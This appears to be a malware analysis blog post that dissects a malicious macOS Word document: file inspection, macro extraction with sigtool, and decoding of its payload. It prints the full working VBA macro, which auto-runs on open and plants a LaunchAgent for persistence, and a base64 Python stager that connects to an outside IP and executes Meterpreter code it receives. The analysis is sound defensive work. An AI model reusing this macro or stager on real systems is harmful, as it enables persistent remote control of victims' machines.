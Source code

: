 ```yaml
---
title: iScam:When a Word Document Wields More Than Just Words
author: Vishal Chand
date: 2025-01-22
categories: [Malware Analysis]
tags: [MacOS,Word Document]
pin: false
math: true
mermaid: true
image:
  path: /assets/img/posts/11.png
---
```

```
description: Analyzing MacOS word documentg malware 
```
Malware sample : [Click me](https://objective-see.com/downloads/blog/blog_0x3A/BitcoinQuestions.zip)

First let's confirm file type by using `file` command.

![file type](/assets/img/posts/13.png)

So it's a word document!

Now let put this up in [Virus Total](https://www.virustotal.com/gui/) 

![md5](/assets/img/posts/12.png)

> Word documents are actually compressed archives (containing XML files).Which means we can “unzip” the document to view its contents.
{: .prompt-info }

![unzip](/assets/img/posts/14.png)

> VBA macros [in a Word Document] are usually stored in a binary `OLE file` within the compressed archive, called vbaProject.bin
{: .prompt-info }

In above picture we can see the presence of `vbaProject.bin`, which means Word document contains macros!

To extract embedded macros we can use clamAV's `sigtool`. vbaProject.bin a binary OLE file.

You can install clamAV via the following:
```shell
brew install clamav
```
> Executing sigtool with the --vba flag, extracts the embedded macros from the word/vbaProject.bin
{: .prompt-tip } 

```shell
bornpresident@President-iMac Downloads % sigtool --vba word/vbaProject.bin 
-------------- start of code ------------------
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True

-------------- end of code ------------------


-------------- start of code ------------------
Attribute VB_Name = "NewMacros"
Private Declare PtrSafe Function system Lib "libc.dylib" Alias "popen" (ByVal command As String, ByVal mode As String) As LongPtr
Private Sub Document_Open()
Dim path As String
Dim payload As String
payload = "import base64,sys;exec(base64.b64decode({2:str,3:lambda ... }[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ" & _
"1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29" & _
"ubmVjdCgoJzEwOS4yMDIuMTA3LjIwJyw5NjIyKSkKCQlicmVhawoJZXhjZXB0OgoJCXRpbWUuc2xlZXAoNSkKbD1zdHJ1Y3QudW5wYWN" & _
"rKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')));"
path = Environ("HOME") & "/../../../../Library/LaunchAgents/~$com.xpnsec.plist"
arg = "<?xml version=""1.0"" encoding=""UTF-8""?>\n" & _
"<!DOCTYPE plist PUBLIC ""-//Apple//DTD PLIST 1.0//EN"" ""http://www.apple.com/DTDs/PropertyList-1.0.dtd"">\n" & _
"<plist version=""1.0"">\n" & _
"<dict>\n" & _
"<key>Label</key>\n" & _
"<string>com.xpnsec.sandbox</string>\n" & _
"<key>ProgramArguments</key>\n" & _
"<array>\n" & _
"<string>python</string>\n" & _
"<string>-c</string>\n" & _
"<string>" & payload & "</string>" & _
"</array>\n" & _
"<key>RunAtLoad</key>\n" & _
"<true/>\n" & _
"</dict>\n" & _
"</plist>"
Result = system("echo """ & arg & """ > '" & path & "'", "r")
'Result = system("launchctl bootout gui/$UID", "r")
End Sub
-------------- end of code ------------------
```
`Private Sub Document_Open()`event occurs when a document is opened.So, the Visual Basic macro code within the in the Document_Open() subroutine will be executed when the malicious Word document,BitcoinMagazine-Quidax_InterviewQuestions_2018.docm, is opened.

So what does the code in the Document_Open() subroutine do?

1. Decodes a chunk (of what appears to be python) code into a variable named payload.
2. Builds a path to a launch agent plist…in a rather interesting manner.
3. Builds a launch agent plist (com.xpnsec.plist) saving this into a variable named arg.
4. Saves said launch agent to disk, via the system command.
5. Forces a logout via launchctl bootout gui/$UID.

> It's not that easy to run macro code within a malicious document beacuse of `Word’s sandbox` but it can bt bypassed. Please refer:[Escaping the Microsoft Office Sandbox](https://objective-see.com/blog/blog_0x35.html)
{: .prompt-info }

#### Decoding python shell
```python
$ python
>>> import base64
>>> payload = "aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5n...30pCg=="
>>> base64.b64decode(payload)

"import socket,struct,time\nfor x in range(10):\n\ttry:\n\t\ts=socket.socket(2,socket.SOCK_STREAM)\n\t\ts.connect(('109.202.107.20',9622))\n\t\tbreak\n\texcept:\n\t\ttime.sleep(5)\nl=struct.unpack('>I',s.recv(4))[0]\nd=s.recv(l)\nwhile len(d)<l:\n\td+=s.recv(l-len(d))\nexec(d,{'s':s})\n"
```
```python
import socket, struct, time

for x in range(10):
  try:
    s=socket.socket(2,socket.SOCK_STREAM)
    s.connect(('109.202.107.20',9622))        //Tries to connect a server at 109.202.107.20 on port 9622 for 10 times
    break
  except:
    time.sleep(5)

l=struct.unpack('>I',s.recv(4))[0]  //Receives 4 bytes from the server (this is variable length of the rest of the payload)
d=s.recv(l)

while len(d)<l:
  d+=s.recv(l-len(d))

exec(d,{'s':s})  //Executes the payload (our 2nd payload)
```
#### Stage 2

```python
$ python download.py 

#!/usr/bin/python
import binascii
import code
import os
import platform

...

try:
    import ctypes
except ImportError:
    has_windll = False
else:
    has_windll = hasattr(ctypes, 'windll')

...

#@export
class MeterpreterChannel(object):
    def core_close(self, request, response):
        self.close()
        return ERROR_SUCCESS, response

...

#@export
class MeterpreterFile(MeterpreterChannel):
    def __init__(self, file_obj):
        self.file_obj = file_obj
        super(MeterpreterFile, self).__init__()

...

#@export
class MeterpreterProcess(MeterpreterChannel):
    def __init__(self, proc_h):

...
```
2nd stage payload is meterpreter. 




